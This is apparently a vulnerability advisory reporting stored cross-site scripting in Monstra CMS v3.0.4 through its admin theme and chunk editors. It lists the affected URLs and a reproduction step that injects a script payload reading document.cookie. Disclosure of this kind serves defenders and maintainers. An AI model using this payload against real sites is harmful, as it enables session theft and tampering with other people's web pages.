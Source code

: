 \> [Description]
\> A cross-site scripting (XSS) vulnerability in Monstra CMS v3.0.4 allows
\> attackers to execute arbitrary web scripts or HTML via a crafted
\> payload injected into the Themes parameter at index.php.
\>
\> ------------------------------------------
\>
\> [Vulnerability Type]
\> Cross Site Scripting (XSS)
\>
\> ------------------------------------------
\>
\> [Vendor of Product]
\> https://github.com/monstra-cms/monstra/
\>
\> ------------------------------------------
\>
\> [Affected Product Code Base]
\> monstra - <=3.0.4
\>
\> ------------------------------------------

\> [Attack Vectors]
\> 1.Log into the panel.
\> 2.

Go to "/admin/index.php?id=themes&action=edit_template&filename=index" 

or "/admin/index.php?id=themes&action=edit_chunk&filename=footer-links" 

or "/admin/index.php?id=themes&action=edit_chunk&filename=footer" 

or "/admin/index.php?id=themes&action=edit_chunk&filename=header"
\> 3.Insert payload:

```
"<script>alert(document.cookie)</script>"
```

 into the content
\> 4.Click  Save and Exit 
\> 5.Click  View Site   -> xss



\> [Discoverer]
\> OoLs